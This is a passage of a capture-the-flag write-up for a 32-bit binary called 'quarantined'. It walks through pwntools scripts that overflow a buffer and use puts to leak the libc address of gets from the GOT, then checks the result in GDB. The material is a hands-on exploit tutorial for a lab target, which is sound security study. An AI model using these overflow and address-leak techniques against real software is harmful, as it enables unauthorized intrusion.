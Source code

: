 ```
please input 1+1

[*] Stopped process '/root/Downloads/wgmy/quarine/quarantined' (pid 70988)
```
Yeah! Looks like we successfully print something using `puts`

Lets try to leak an address in GOT!

We only can leak function that called before, so only `puts` and `gets`

```py
from pwn import *
elf = ELF("./quarantined")
p = elf.process()
vuln = 0x8048562
puts_plt = 0x80483c0
gets_got = 0x804a010
p.sendlineafter("1+1\n",'a'*1036+p32(puts_plt)+p32(vuln)+p32(gets_got))
# Receive until a newline (puts ends with newline)
print(repr(p.recvuntil("\n"))) 
```
```
'@\xcb\xd5\xf7\x90\xd5\xd5\xf7\xd6\x83\x04\x08\n'
[*] Stopped process '/root/Downloads/wgmy/quarine/quarantined' (pid 72587)
```
We successfully leaked the libc address of `gets`!

It prints many bytes because `puts` function print until NULL bytes

We only need first 4 bytes

```py
from pwn import *
elf = ELF("./quarantined")
p = elf.process()
vuln = 0x8048562
puts_plt = 0x80483c0
gets_got = 0x804a010
p.sendlineafter("1+1\n",'a'*1036+p32(puts_plt)+p32(vuln)+p32(gets_got))
# [:4] get first 4 character
# u32 converts raw bytes to number
print(hex(u32(p.recvuntil("\n")[:4])))
```
```
0xf7db1b40
[*] Stopped process '/root/Downloads/wgmy/quarine/quarantined' (pid 72988)
```
Lets verify the address with GDB Debugger:
```
gdb quarantined 
GNU gdb (Debian 9.1-2) 9.1
...
...
Reading symbols from quarantined...
(No debugging symbols found in quarantined)
pwndbg> r
Starting program: /root/Downloads/wgmy/quarine/quarantined 
Before you do something to this program, i need to have a sanity check.
please input 1+1
j
[Inferior 1 (process 72914) exited with code 020]
pwndbg> x gets
0xf7e2fb40 <_IO_gets>:	0x57e58955
``` 
Notice last 3 digit is the same because the **function offset is fixed**

